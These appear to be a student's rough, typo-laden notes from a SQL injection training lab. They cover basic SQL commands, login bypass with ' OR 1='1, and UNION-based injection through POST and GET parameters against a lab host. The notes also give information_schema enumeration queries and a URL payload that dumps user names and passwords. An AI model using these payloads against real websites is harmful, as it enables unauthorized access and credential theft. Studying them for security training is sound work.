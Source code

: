 default database

use information _scheam
contains information about all other databses

will find databses names, columns

show tables

Commands, such as below, 
are standardized across vendors, 
and can accomplish almost all tasks inside a Database:
SELECT
UPDATE
DELETE
CREATE
DROP



# Basic SQL Commands:
USE                  Select the database to use**
SELECT               extract data from databse
UPDATE               update data in a database
DELETE               delete data from a database
INSERT INTO          insert new data into a databse
CREATE DATABSE       create a new database
ALTER DATABASE       modify a existing databse
CREATE TABLE         create a new table
DROP TABLE           delete an existing table
CREATE INDEX         create an index
DROP INDEX           delete an index
UNION                combine the result-set of twoo or more equal statements

informations schema
->tables
--->columns
----->table

golden statement
select table_schema,table_name,column_name from informations_schema.columns ;

show tables from session

select name,cost,color from session.car ;
select name,size,cosr from session.tires ;

# do activity 
https://sqlbolt.com/lesson/select_queries_introduction

# login/auth bypass
'
login:  ' OR 1='1
passw:  ' OR 1='1
go into web dev
copy raw post request
add ? after php
paste raw post request
tells server to get all thst infomstion to grab more information
result was the dumping of user information

## step one id vulnerable field bt fuzzing (post method)
interact " 'audi' OR 1='1 "
->show query
--> golden statement "select name, type, cost, color, year from car where name='ford'"
--> golden statement "select name, type, cost, color, year from car where name='dodge'"

## step two
once identified, test for my columns
audi 'UNION SELECT 1,2,3,4,5 #
 golden statement
 UNION SELECT table_schema,table_name,column_name from information_schema.columns #
# edit goldne statemtn

Audi ' UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns #
Audi ' UNION SELECT type,2,cost,color,year from session.car #
Audi ' UNION SELECT carid,2,type,name,year from session.car #

### record the databses as such
databases:
session
      tires
          tireid
          name
          size
          cost
      car
          rgagasd
          gasgdsa
          werqsa
## step one id vulnerable field bt fuzzing (get method)
pay attention to url and what changes with each selection
http://10.50.36.14/uniondemo.php?Selectionhttp://10.50.36.14/uniondemo.php?Selection=2%20UNION%20SELECT%20id,name,pass%20from%20session.user=4 OR 1=1
after fuzzing, only 1 is properly configured, all others (2,3,4) are vulnerable

## step two: identify how many columns
http://10.50.36.14/uniondemo.php?Selection=2 UNION SELECT 1,2,3
 Displayed 1,3,2

## step 3 edit golden statement to dump database (same as post method)

copy golden statement but swap table name and column name to format correctly
 UNION SELECT table_schema,table_name,column_name from information_schema.columns 
 UNION SELECT table_schema,column_name,table_name from information_schema.columns 
pass the golden statemnet after the selection=2 into url 
10.50.36.14/uniondemo.php?Selection=2 UNION SELECT table_schema,column_name,table_name from information_schema.columns
## step 4 craft queries get mone
10.50.36.14/uniondemo.php?Selection=2 UNION SELECT id,name,@@version from information_schema.columns
http://10.50.36.14/uniondemo.php?Selection=2%20UNION%20SELECT%20id,name,pass%20from%20session.user
input validation is the biggest defense against this in the fmf 



